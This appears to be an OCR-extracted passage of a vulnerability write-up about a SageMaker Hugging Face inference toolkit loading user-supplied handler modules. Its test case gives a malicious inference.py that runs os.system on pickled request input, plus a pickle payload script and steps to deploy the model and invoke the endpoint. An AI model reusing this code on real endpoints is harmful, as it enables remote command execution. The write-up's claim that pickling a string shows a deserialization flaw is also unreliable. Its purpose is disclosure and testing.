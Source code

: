             # ...
            user_module = importlib.import_module(user_module_name)

            load_fn = getattr(user_module, MODEL_FN, None)
            preprocess_fn = getattr(user_module, INPUT_FN, None)
            predict_fn = getattr(user_module, PREDICT_FN, None)
            postprocess_fn = getattr(user_module, OUTPUT_FN, None)
            transform_fn = getattr(user_module, TRANSFORM_FN, None)

            if load_fn is not None:
                self.load_extra_arg = self.function_extra_arg(self.load, load_fn)
                self.load = load_fn
            if preprocess_fn is not None:
                self.preprocess_extra_arg = self.function_extra_arg(self.preprocess, preprocess_fn)
                self.preprocess = preprocess_fn
            # ... (similar for predict_fn, postprocess_fn, transform_fn)
        ```
- Security Test Case:
    1. **Create a malicious `inference.py`**:
        ```python
        import pickle
        import base64
        import os

        def model_fn(model_dir):
            return "dummy_model"

        def input_fn(request_body, request_content_type):
            if request_content_type == 'application/octet-stream':
                command_exec = pickle.loads(request_body) # Vulnerability: unsafe deserialization
                os.system(command_exec) # Execute command - for demonstration, avoid harmful commands
                return {"command_executed": command_exec}
            else:
                raise ValueError("Unsupported content type")

        def predict_fn(input_object, model):
            return {"status": "Command execution attempted"}

        def output_fn(prediction, accept):
            return prediction
        ```
    2. **Create a malicious pickled payload**:
        ```python
        import pickle
        import base64
        import os

        command_to_execute = 'touch /tmp/pwned.txt' # Harmless command for testing
        payload = pickle.dumps(command_to_execute)
        encoded_payload = base64.b64encode(payload).decode()
        print(encoded_payload)
        ```
    3. **Create a `model.tar.gz`**: Package the malicious `inference.py` and a dummy model (e.g., empty `pytorch_model.bin`) into a `model.tar.gz` archive, ensuring the `inference.py` is in a `code/` subdirectory.
    4. **Deploy the SageMaker endpoint**: Use the SageMaker Python SDK to deploy a Hugging Face model, specifying the `model_data` as the S3 URI of the created `model.tar.gz`.
    5. **Send a crafted request**: Use `aws sagemaker-runtime invoke-endpoint` or the `client.invoke_endpoint` method to send a POST request to the deployed endpoint. Set the `ContentType` to `application/octet-stream` and the `Body` to the base64 encoded pickled payload from step 2 after decoding it from base64.